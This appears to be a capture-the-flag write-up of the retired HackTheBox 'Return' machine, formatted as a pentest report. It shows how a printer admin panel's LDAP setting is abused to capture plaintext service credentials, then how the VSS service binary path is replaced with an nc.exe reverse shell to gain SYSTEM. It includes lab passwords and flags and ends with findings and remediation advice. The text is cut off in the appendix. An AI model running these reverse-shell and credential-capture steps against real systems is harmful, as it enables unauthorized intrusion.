








# Return — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Easy       | Windows | Active Directory |

> Writeup of a retired Return machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Service Enumeration](#12-service-enumeration)
  * [1.3. Web Application Discovery](#13-web-application-discovery)
  * [1.4. Settings Page Analysis](#14-settings-page-analysis)
  * [2.1. LDAP Credential Interception](#21-ldap-credential-interception)
  * [2.2. Initial Foothold via WinRM](#22-initial-foothold-via-winrm)
  * [2.3. User Flag](#23-user-flag)
  * [3.1. Post-Exploitation Group Enumeration](#31-post-exploitation-group-enumeration)
  * [3.2. Service Binary Path Modification](#32-service-binary-path-modification)
  * [3.3. SYSTEM Shell and Root Flag](#33-system-shell-and-root-flag)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Return / IP: 10.129.94.51`
**Platform:** `HackTheBox`
**Date Completed:** `September 26, 2026`
**Assessment Type:** `Active Directory / Windows Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Return environment. The test was carried out from the perspective of a complete outsider with no prior access, credentials, or knowledge of the environment.

The results are serious. Our team was able to gain the highest level of access possible on the target server, starting from a position of zero access. In a real-world scenario, this would allow an attacker to take full control of the server and all systems connected to it, access or destroy any data on the network, and do so without setting foot on the premises.

Three security issues made this possible. They relate to a web-based management tool that is accessible without strong controls, a lack of safeguards on how that tool connects to internal systems, and a staff account that has been granted far more administrative power than its role requires. None of these issues require purchasing new software to fix — all can be addressed through changes to existing settings and access policies.

The overall risk is rated **Critical**. The actions outlined in the Remediation Summary section of this report should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address         | Description                                                           |
| ------------------------------- | --------------------------------------------------------------------- |
| `return.local / 10.129.94.51`   | Target machine — Windows Server (`printer.return.local`)              |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — service and SMB enumeration to map the attack surface.
3. **Vulnerability Analysis** — identifying the credential exposure vector via the web admin panel and overpermissive group membership.
4. **Exploitation** — credential interception via LDAP redirect to gain an authenticated WinRM shell.
5. **Privilege Escalation** — abusing Server Operators group membership to hijack a service binary and obtain SYSTEM-level access.
6. **Post-Exploitation** — validating full administrative access, capturing flags, and documenting impact.

---

## Tools Used

| Tool          | Purpose                                                                              |
| ------------- | ------------------------------------------------------------------------------------ |
| `Nmap`        | Port scanning and service enumeration                                                |
| `enum4linux`  | SMB and domain enumeration                                                           |
| Web Browser   | Accessing and interacting with the printer admin web panel                           |
| `netcat (nc)` | Listener to intercept the LDAP authentication request and capture plaintext credentials |
| `Evil-WinRM`  | Credential-based remote shell access via WinRM                                       |
| `sc.exe`      | Windows service control utility used to modify a service binary path                 |
| `nc.exe`      | Windows netcat binary uploaded to the target for reverse shell execution             |

---

## Assessment Summary (Findings Overview)

An unauthenticated web-based printer admin panel allowed the target server's LDAP authentication address to be redirected to an attacker-controlled machine, causing the server to send its service account credentials in plaintext. Those credentials provided a WinRM shell, from which the service account's membership in the Server Operators group was identified. This membership was abused to modify a Windows service's executable path to deliver a reverse shell, achieving full SYSTEM-level access. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 1     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| #  | Severity | Finding Name                                                                     |
| -- | -------- | -------------------------------------------------------------------------------- |
| 1  | Critical | Server Operators Group Membership Enabling Service Binary Hijacking for SYSTEM Access |
| 2  | High     | LDAP Credential Interception via Printer Admin Panel Server Redirect             |
| 3  | Medium   | Printer Admin Panel Accessible Without Authentication                            |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to SYSTEM-level compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
sudo nmap 10.129.94.51 -sC -sV -Pn
```



**Findings:** The target is a Windows Server in the `return.local` Active Directory domain. Key open ports include:

| Port    | Service  | Significance                                                           |
| ------- | -------- | ---------------------------------------------------------------------- |
| 80      | HTTP     | Web application — immediate enumeration target                         |
| 88      | Kerberos | Authentication service — AD environment confirmed                      |
| 139/445 | SMB      | File sharing — enumeration target                                      |
| 389     | LDAP     | Directory services — used by the printer for AD authentication lookups |
| 5985    | WinRM    | Remote management — foothold vector if credentials are found           |

The presence of a web service on port 80 alongside WinRM on port 5985 provides two immediate targets: a web application to explore and a remote management interface to leverage if credentials are recovered. Host entries were added for name resolution:

```
echo "10.129.94.51 return.local" | sudo tee -a /etc/hosts
```

---

### 1.2. Service Enumeration

```
enum4linux 10.129.94.51
```

**Findings:** `enum4linux` confirmed the domain as `return.local` with the fully qualified hostname `printer.return.local`. Importantly, the tool confirmed that SMB does not allow anonymous (NULL session) or guest access — meaning the SMB attack surface is limited without credentials. The web application on port 80 therefore becomes the primary entry vector.

Key details recovered from enum4linux:
- **Domain:** RETURN
- **FQDN:** printer.return.local
- **OS:** Windows 10 / Windows Server 2019 / 2016 (build 17763)
- SMB NULL and guest sessions: denied
- No shares enumerable without authentication

---

### 1.3. Web Application Discovery

Navigating to `http://10.129.94.51/` in a browser revealed an HTB Printer Admin Panel:



**Findings:** The web application is a printer management panel running on IIS. The navigation bar includes a **Settings** page — configuration pages for network-connected printers commonly store LDAP or SMB credentials used to authenticate the printer to Active Directory, for example to look up users for scan-to-email functionality. This is an immediately high-value target.

---

### 1.4. Settings Page Analysis

Navigating to `http://10.129.94.51/settings.php` revealed the printer's current LDAP configuration:



**Findings:** The settings page is accessible without authentication and exposes the following configuration in plaintext:

| Field          | Value                |
| -------------- | -------------------- |
| Server Address | `printer.return.local` |
| Server Port    | `389` (LDAP)         |
| Username       | `svc-printer`        |
| Password       | `*******` (masked)   |

The username `svc-printer` is visible. The password is masked in the browser but the underlying mechanism is critical: when the **Update** button is clicked, the printer service will attempt to authenticate to whatever server address is configured. If this address can be changed to an attacker-controlled machine, the printer will send its credentials there — in plaintext.

---

### 2.1. LDAP Credential Interception

A netcat listener was started on port 389 (the LDAP port) on the attacker machine to receive the incoming authentication attempt:

```
sudo nc -lvnp 389
```

The Server Address field in the printer settings page was then updated to the attacker's IP address and the **Update** button was clicked:



The printer service immediately attempted to authenticate to the attacker's netcat listener, sending its credentials in plaintext over the network:



**Credential recovered:** `svc-printer` : `1edFg43012!!`

**Root cause:** The printer admin panel allows the LDAP server address to be changed without any validation of the destination address, and without requiring authentication to access the settings page. Network-connected printers are designed to authenticate to a directory server — this setting simply redirected that authentication attempt to an attacker-controlled listener. The credentials were transmitted in plaintext because the connection used unauthenticated LDAP (port 389) rather than LDAPS (port 636).

---

### 2.2. Initial Foothold via WinRM

The recovered credentials were tested against the WinRM service identified on port 5985:

```
evil-winrm -i 10.129.94.51 -u svc-printer -p '1edFg43012!!'
whoami
```

**Result:** Authentication was successful. An interactive PowerShell session was obtained on the target as `return\svc-printer`.

---

### 2.3. User Flag

```powershell
cd C:\Users\svc-printer\Desktop
dir
cat user.txt
```



**user.txt:** `44183dce586892f7c2b55a23bae0f1de`

---

### 3.1. Post-Exploitation Group Enumeration

With a foothold established, the `svc-printer` account's group memberships were enumerated to identify privilege escalation paths:

```powershell
net user svc-printer
```



**Findings:** `svc-printer` is a member of three notable groups:

| Group                   | Significance                                                                 |
| ----------------------- | ---------------------------------------------------------------------------- |
| `Server Operators`      | Can start/stop services and modify service binary paths — leads directly to SYSTEM |
| `Print Operators`       | Can manage printers and printer drivers on domain controllers                |
| `Remote Management Users` | Grants WinRM access — already leveraged for this shell                     |

The `Server Operators` membership is the critical finding. Members of this built-in Windows group can stop and start services and — crucially — modify the binary path that a service executes when started. By replacing a legitimate service's binary path with a reverse shell payload, any member of Server Operators can execute arbitrary code in the context of `NT AUTHORITY\SYSTEM`.

---

### 3.2. Service Binary Path Modification

A netcat binary for Windows was uploaded to the target to serve as the reverse shell payload:

```powershell
upload /usr/share/windows-resources/binaries/nc.exe C:\\Users\\svc-printer\\Documents\\nc.exe
```

The `VSS` (Volume Shadow Copy) service was chosen as the target for binary path modification because it is stoppable and restartable by Server Operators. Its binary path was replaced with a command to execute a reverse shell back to the attacker machine:

```powershell
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.15.85 1234"
```

A listener was started on the attacker machine:

```
nc -lvnp 1234
```

The VSS service was stopped and restarted to trigger execution of the modified binary path:

```powershell
sc.exe stop vss
sc.exe start vss
```

---

### 3.3. SYSTEM Shell and Root Flag

```cmd
whoami
more C:\Users\Administrator\Desktop\root.txt
```



**Result:** The reverse shell connected back to the attacker machine as `NT AUTHORITY\SYSTEM` — the highest privilege level on a Windows system, above even the local Administrator. Full system compromise was achieved.

**root.txt:** `c81cc73c910ab12d891ed206e17a10a9`

---

## Technical Findings Details

### 1. Server Operators Group Membership Enabling Service Binary Hijacking for SYSTEM Access — Critical

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-732: Incorrect Permission Assignment for Critical Resource                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| **CVSS 3.1 Score**                 | 9.9 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **Description (Incl. Root Cause)** | The `svc-printer` service account is a member of the built-in `Server Operators` group. Members of this group are permitted to start and stop Windows services and to modify service binary paths via `sc.exe config`. By replacing the binary path of a stoppable service (`VSS`) with a reverse shell payload and restarting the service, code was executed as `NT AUTHORITY\SYSTEM`. The root cause is an over-permissive group assignment — a printer service account has no operational requirement for Server Operators membership, which grants significant administrative capabilities over Windows services on domain controllers. |
| **Security Impact**                | Any attacker who compromises the `svc-printer` account can immediately escalate to `NT AUTHORITY\SYSTEM`, granting unrestricted access to the operating system, all files, all running processes, and the Active Directory environment. This is the highest privilege level achievable on a Windows host and results in complete system compromise.                                                                                                                                                                                    |
| **Affected Host(s)**               | `printer.return.local / 10.129.94.51` — `Server Operators` group membership on `svc-printer`; VSS service binary path                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Remediation**                    | - Remove `svc-printer` from the `Server Operators` group immediately — the service account for a printer has no legitimate need for this level of access — Audit all members of `Server Operators`, `Print Operators`, `Backup Operators`, and other built-in privileged groups; revoke any memberships that cannot be operationally justified — Apply the principle of least privilege to all service accounts: each should hold only the minimum permissions required for its specific function — Monitor for `sc.exe config` commands via Windows Event Logs or a SIEM to detect future service binary path changes |
| **References**                     | [MITRE ATT&CK: T1543.003 — Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/) · [MITRE ATT&CK: T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/) · [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html) |

**Evidence:**

```powershell
# Server Operators membership confirmed:
net user svc-printer
# Local Group Memberships: *Print Operators  *Remote Management Users  *Server Operators

# Service binary path modified to reverse shell:
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.15.85 1234"
sc.exe stop vss
sc.exe start vss
# Result: NT AUTHORITY\SYSTEM reverse shell received
```

`Screenshot groups.png: net user svc-printer output confirming Server Operators group membership`
`Screenshot root-flag.png: Incoming SYSTEM reverse shell and root.txt read via netcat`

---

### 2. LDAP Credential Interception via Printer Admin Panel Server Redirect — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-522: Insufficiently Protected Credentials                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| **CVSS 3.1 Score**                 | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                                                         |
| **Description (Incl. Root Cause)** | The printer admin panel's Settings page allows the LDAP server address to be updated without authentication or destination validation. When the Server Address is changed to an attacker-controlled host and the **Update** button is clicked, the printer service immediately attempts to authenticate to the new address using its stored LDAP credentials, transmitting them in plaintext over port 389. The root cause is twofold: the settings page lacks access controls (Finding #3), and the printer is configured to use unencrypted LDAP (port 389) rather than LDAPS (port 636), meaning credentials are never encrypted in transit regardless of the server being contacted. |
| **Security Impact**                | Any unauthenticated user who can reach port 80 on the printer can redirect the device's LDAP authentication to their own machine and capture the service account password in plaintext. This provided the credentials used for the WinRM foothold and everything that followed, making this the initial access point of the full compromise chain.                                                                                                                                      |
| **Affected Host(s)**               | `10.129.94.51:80` (`http://10.129.94.51/settings.php`) — LDAP client configuration                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Remediation**                    | - Require authentication to access the printer admin panel's settings page — at minimum, a unique admin password set during device provisioning — Validate the LDAP server address against an allowlist of approved internal directory servers; reject any update to an unrecognised address — Migrate the printer's LDAP authentication from port 389 (unencrypted) to port 636 (LDAPS) so credentials are encrypted in transit even if the server address were redirected — Rotate the `svc-printer` password immediately |
| **References**                     | [MITRE ATT&CK: T1557 — Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) · [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)                                                                                                                                                            |

**Evidence:**

```bash
# Attacker starts listener on LDAP port:
sudo nc -lvnp 389

# Attacker updates Server Address to their IP via settings.php
# Printer immediately authenticates to the listener:
# Connection received on 10.129.94.51 53978
# return\svc-printer
# 1edFg43012!!
```

`Screenshot server-address.png: Settings page with attacker IP entered as the Server Address`
`Screenshot credentials.png: Netcat listener receiving the plaintext LDAP authentication containing the svc-printer password`

---

### 3. Printer Admin Panel Accessible Without Authentication — Medium

| Field                              | Details                                                                                                                                                                                                                                                                                                                             |
| ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-284: Improper Access Control                                                                                                                                                                                                                                                                                                     |
| **CVSS 3.1 Score**                 | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N`                                                                                                                                                                                                                                                                      |
| **Description (Incl. Root Cause)** | The printer admin panel, including the sensitive Settings page at `/settings.php`, is accessible to any user on the network without requiring a username or password. The Settings page displays the current LDAP server address, port, and service account username in plaintext, and allows configuration changes without any access control. The root cause is the absence of authentication on a web management interface that controls how a domain-joined device communicates with Active Directory. |
| **Security Impact**                | Unauthenticated access to the settings page allows any network user to view the service account username and to modify the LDAP server address — the precondition required for the credential interception attack described in Finding #2. Without this access, the LDAP redirect attack would not be possible.                        |
| **Affected Host(s)**               | `10.129.94.51:80` (`http://10.129.94.51/` and `http://10.129.94.51/settings.php`)                                                                                                                                                                                                                                                   |
| **Remediation**                    | - Immediately enforce authentication on the printer admin panel — configure a strong, unique admin password for the web interface — Restrict access to the admin panel by IP address, limiting it to specific management workstations or a dedicated management VLAN — Place the printer management interface behind a VPN or network access control policy so it is not reachable from general-purpose workstations |
| **References**                     | [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) · [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)                                                                                                                                         |

**Evidence:**

```
# No credentials required to access settings.php:
# http://10.129.94.51/settings.php — returns 200 OK with full configuration page
# Username svc-printer visible in plaintext
# Server Address and Port visible and editable
```

`Screenshot homepage.png: Printer admin panel accessible directly in the browser without any login prompt`
`Screenshot settingspage.png: Settings page showing the LDAP configuration including the svc-printer username in plaintext`

---

## Remediation Summary

### Short Term

- **Finding #1 (Server Operators)** — Remove `svc-printer` from the `Server Operators` group immediately. A printer service account has no legitimate need for this level of access.
- **Finding #2 (LDAP Credential Interception)** — Rotate the `svc-printer` password immediately. Configure the printer to use LDAPS (port 636) rather than plain LDAP (port 389) for all directory communications.
- **Finding #3 (Unauthenticated Admin Panel)** — Enable authentication on the printer admin web interface and restrict access to trusted management hosts or a dedicated management VLAN.

### Medium Term

- **Finding #1 (Server Operators)** — Conduct a full audit of built-in privileged group memberships (`Server Operators`, `Backup Operators`, `Print Operators`, `Account Operators`) across the domain. Remove any account whose membership cannot be explicitly justified and documented.
- **Finding #2 (LDAP Credential Interception)** — Implement an allowlist on the printer's LDAP server address field so it cannot be changed to an unrecognised address. Evaluate whether the printer genuinely requires LDAP authentication or whether that integration can be removed entirely.
- **Finding #3 (Unauthenticated Admin Panel)** — Review all web-based management interfaces on domain-joined devices for authentication requirements. Network-connected peripherals (printers, cameras, access control systems) frequently ship with weak or absent authentication on their admin interfaces and should be included in periodic security reviews.

### Long Term

- Implement network segmentation to isolate management interfaces for printers and other peripherals from general-purpose workstations. Management should only be possible from a dedicated, access-controlled VLAN.
- Apply the principle of least privilege to all service accounts as a standing policy. No service account should ever be a member of built-in privileged groups such as Server Operators unless there is a documented, approved operational requirement.
- Mandate LDAPS (encrypted directory communication) across the environment for all devices and applications that query Active Directory. Unencrypted LDAP should be disabled at the domain level.
- Establish a recurring review of Active Directory group memberships and device management interface configurations as part of the organisation's security operations process.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: Web Application Enumeration and Attack Surface Identification.** Identified a printer admin web panel on port 80 as the primary attack surface after SMB enumeration returned no anonymous access. Recognised the significance of the Settings page as a likely credential store and LDAP configuration interface based on how network-connected printers interact with Active Directory.

**Skill/Technique 2: LDAP Credential Interception via Server Address Redirect.** Leveraged the printer admin panel's ability to change the LDAP server address to redirect the printer's authentication attempt to an attacker-controlled netcat listener. This demonstrates a class of attack sometimes called a credential relay or forced authentication — rather than attacking the credentials directly, the attacker causes the target to voluntarily send them.

**Skill/Technique 3: Privilege Escalation via Server Operators Service Binary Hijacking.** Identified `Server Operators` group membership through `net user` enumeration, understood the implications of that membership, and abused it to replace a Windows service's binary path (`VSS`) with a reverse shell payload. Stopping and restarting the service caused Windows to execute the payload as `NT AUTHORITY\SYSTEM`, achieving the highest available privilege level.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                        | Method                                                    | Notes                                                        |
| --------------------------- | --------------------------------------------------------- | ------------------------------------------------------------ |
| `10.129.94.51:80`           | Unauthenticated access to printer admin panel             | Service account username exposed; LDAP redirect performed    |
| `10.129.94.51:389` (attacker listener) | LDAP credential interception via netcat        | `svc-printer` credentials captured in plaintext              |
| `10.129.94.51:5985`         | Credential-based WinRM authentication                     | Interactive shell as `return\svc-printer` — user.txt captured |
| `printer.return.local`      | Service binary path hijacking via Server Operators rights | SYSTEM-level reverse shell — root.txt captured               |

### C. Compromised Users / Credentials

| Username      | Method                                                       | Notes                                                          |
